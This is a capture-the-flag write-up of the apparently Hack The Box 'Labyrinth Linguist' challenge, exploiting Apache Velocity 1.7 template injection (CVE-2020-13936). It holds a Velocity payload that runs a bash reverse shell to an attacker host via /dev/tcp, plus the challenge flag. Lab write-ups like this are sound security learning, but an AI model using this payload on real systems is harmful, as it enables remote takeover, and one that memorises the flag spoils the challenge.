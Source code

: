 # Labyrinth Linguist

> Difficulty: Easy
>
> You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

Solution:

We are given with the source files to re-create and test the challenge locally. A Docker instance can be spawned as well to solve and get the real flag, which is `http://83.136.255.205:37803/` for this case.

![image](1.png)

The web app is simple, we give it a text and it will "translate" it to "voxalith".

![image](2.png)

Based on the source files, we're using Apache Velocity 1.7, a Java-based templating engine.

Searching for "Apache Velocity 1.7 vulnerability" tells us that arbitrary code execution is possible (CVE-2020-13936).
https://security.snyk.io/package/maven/org.apache.velocity:velocity-engine-core
https://securitylab.github.com/advisories/GHSL-2020-048-apache-velocity/

Searching for potential PoCs, I stumbled on https://gist.github.com/win3zz/95ace39c4066a99df96fad6c2f8abdf5

I modified the `template.vm` a bit in order to have a reverse shell:

```java
#set($LHOST = 'XXXXXXX');
#set($LPORT = XXXXXXX);
#set($s = "");
#set($class = $s.getClass());
#set($command = "");
#set($command = "bash -c $@|bash 0 echo sh -i >& /dev/tcp/$LHOST/$LPORT 0>&1");
$class.forName("java.lang.Runtime").getRuntime().exec($command)
```

Ran ngrok, updated the template, pasted it to text box, and submitted it.

![image](3.png)

![image](4.png)

Boom!

Based on `entrypoint.sh`, the flag is in the root directory and has a random string appended to it.

![image](5.png)

![image](6.png)

Noice!

Flag: `HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`
